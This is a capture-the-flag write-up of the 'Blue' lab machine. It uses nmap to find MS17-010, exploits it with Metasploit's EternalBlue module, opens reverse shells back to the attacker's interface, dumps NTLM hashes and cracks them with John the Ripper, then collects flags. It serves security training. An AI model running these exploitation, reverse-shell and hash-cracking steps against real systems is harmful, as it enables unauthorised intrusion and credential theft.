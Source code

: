 # Blue

## Task 1

Scan the machine for open ports and vulnerabilities using nmap.

```
nmap -sVC --script vuln  10.10.91.185
```

<img src="images/02.Blue/01.png">

<img src="images/02.Blue/02.png">

From the scan results we can see that the machine is vulnerable to ms17-010.

## Task 2

Let's open metasploit.

```
msfconsole -q
```

Search for the exploit ms17-010 and use exploit/windows/smb/ms17_010_eternalblue.

```
search ms17-010
```

```
use 0
```

<img src="images/02.Blue/03.png">

### Approach 1

The payload is set by default to windows/x64/meterpreter/reverse tcp.

See the available options and change the rport and lhost.

```
show options
```

```
set rhosts 10.10.91.185
```

```
set lhost tun0
```

<img src="images/02.Blue/04.png">

Run the exploit.

```
exploit
```

We now got a meterpreter shell. Let's quickly find out the information about the machine. We are logged in as nt authority\system. Now we have all privileges to the machine.

<img src="images/02.Blue/05.png">

<img src="images/02.Blue/06.png " height="400">

### Approach 2

Set the payload to windows/x64/shell/reverse_tcp.

```
set payload windows/x64/shell/reverse_tcp
```
See the available options and change the rport and lhost.

```
show options
```

```
set rhosts 10.10.91.185
```

```
set lhost tun0
```

<img src="images/02.Blue/07.png">

Run the exploit.

```
exploit
```
We now got a shell and we will elevate this shell to meterpreter shell. Background the shell by hitting Ctrl+Z.

<img src="images/02.Blue/08.png">

Use the module post/multi/manage/shell_to_meterpreter to get a meterpreter shell from the existing non-meterpreter shell.

Set lhost, session and run it.

```
set lhost tun0
```

```
set session 2
```

```
expoit
```

<img src="images/02.Blue/09.png">

<img src="images/02.Blue/10.png">

## Task 3

Let's check whether we are running as nt authority\system or not using getsystem.

```
getsystem
```

We are already running as SYSTEM and run ps to list all the processes.

```
ps
```

<img src="images/02.Blue/11.png">

We will now migrate to a different process that is running as NT AUTHORITY\SYSTEM.

```
migrate 704
```

<img src="images/02.Blue/12.png" height="100">

## Task 4

We can run hashdump in the meterpreter shell to get the hashes.

<img src="images/02.Blue/13.png">

Then we will crack the hash of user Jon with John The Ripper.

```
john hash.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

<img src="images/02.Blue/14.png">

## Task 5

Now let's find the flags. The first flag is located in the location C:\ .

<img src="images/02.Blue/15.png">

The second flag is located at the location where passwords are stored. The passwords are stored in SAM file. So, the second flag would be in the location C: \windows\system32\config.

<img src="images/02.Blue/16.png" height="100">

<img src="images/02.Blue/17.png" height="100">

The third flag is located in the Documents folder of the user Jon.

<img src="images/02.Blue/18.png" height="400">
